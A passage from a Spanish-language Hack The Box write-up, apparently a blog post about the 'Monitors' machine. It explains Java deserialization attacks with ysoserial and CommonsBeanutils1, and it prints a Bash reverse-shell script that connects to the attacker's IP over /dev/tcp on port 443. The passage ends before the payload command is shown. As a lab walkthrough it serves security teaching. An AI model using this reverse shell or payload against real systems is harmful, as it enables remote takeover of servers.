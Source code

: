 ![55](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/55.png){:class="blog-image" onclick="expandImage(this)"}

Primero, descargaremos [ysoserial](https://github.com/frohoff/ysoserial), una herramienta que nos permite generar objetos _Java_ serializados con _payloads_ maliciosos. Esto resulta útil en `ataques de deserialización`, donde al enviar un _objeto serializado_ especialmente diseñado, logramos ejecutar código en el servidor si este procesa (_deserializa_) el objeto sin realizar una validación adecuada.

Posteriormente, escribiremos una _reverse shell_ en _Bash_. Esta _reverse shell_ nos permitirá obtener acceso remoto desde el servidor a nuestra máquina. Para esto, crearemos un archivo llamado `shell.sh` con el siguiente contenido:

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/<nuestraIP>/443 0>&1
```

![56](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/56.png){:class="blog-image" onclick="expandImage(this)"}

A continuación, generaremos el _payload_ en formato _JAR_, usando la clase `CommonsBeanutils1`. Esta clase es parte de _Apache Commons_ y se ha explotado en el pasado para ejecutar código de manera arbitraria en objetos serializados. Al utilizar `ysoserial` junto con `CommonsBeanutils1`, podemos incluir comandos en un objeto serializado que ejecutará el servidor al _deserializarlo_. En este caso, el _payload_ está diseñado para que el servidor descargue nuestro archivo `shell.sh` en el directorio temporal (`/tmp`) de la máquina víctima. El output del _payload_ la codificamos en `base64` para facilitar su envío y evitar problemas de transmisión en el proceso:
